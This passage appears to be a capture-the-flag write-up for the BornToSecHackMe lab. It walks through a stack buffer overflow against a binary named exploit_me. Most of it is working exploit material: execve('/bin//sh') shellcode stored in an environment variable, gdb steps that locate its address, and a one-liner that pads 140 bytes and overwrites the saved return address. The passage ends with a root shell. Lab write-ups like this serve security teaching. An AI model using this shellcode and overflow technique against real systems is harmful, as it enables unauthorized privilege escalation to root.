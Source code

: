 
Save eip is stored in (buffer's address + 140) `[ADDR BUFFER + 140 + SEIP]`

#### 2. Create Shellcode and know where is it

```bash
zaz@BornToSecHackMe:~$ env -i SHELLCODE=$(python -c 'print "\x31\xdb\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"') PWD=$PWD gdb -q $PWD/exploit_me

(gdb) show env
SHELLCODE=1�1�1�Qhn/shh//bi��1��
                                 ̀
PWD=/home/zaz
LINES=83
COLUMNS=181
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) show env
SHELLCODE=1�1�1�Qhn/shh//bi��1��
                                 ̀
PWD=/home/zaz
(gdb) start
Temporary breakpoint 1 at 0x80483f7
Starting program: /home/zaz/exploit_me

Temporary breakpoint 1, 0x080483f7 in main ()
(gdb) x/10s *((char **)environ)
0xbfffffb5:     "PWD=/home/zaz"
0xbfffffc3:     "SHELLCODE=1\333\061\322\061\311Qhn/shh//bi\211\343\061\300\260\v\315\200"
0xbfffffe7:     "/home/zaz/exploit_me"
0xbffffffc:     ""
0xbffffffd:     ""
0xbffffffe:     ""
0xbfffffff:     ""
0xc0000000:     <Address 0xc0000000 out of bounds>
0xc0000000:     <Address 0xc0000000 out of bounds>
0xc0000000:     <Address 0xc0000000 out of bounds>
(gdb) quit
A debugging session is active.

    Inferior 1 [process 2379] will be killed.

Quit anyway? (y or n) y
```

#### 3. Exploit exploit_me

```bash
zaz@BornToSecHackMe:~$ env -i SHELLCODE=$(python -c 'print "\x31\xdb\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80"') PWD=$PWD $PWD/exploit_me $(python -c 'print "\x90" * 140 + "\xbf\xff\xff\xc3"[::-1] ')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# :D
```
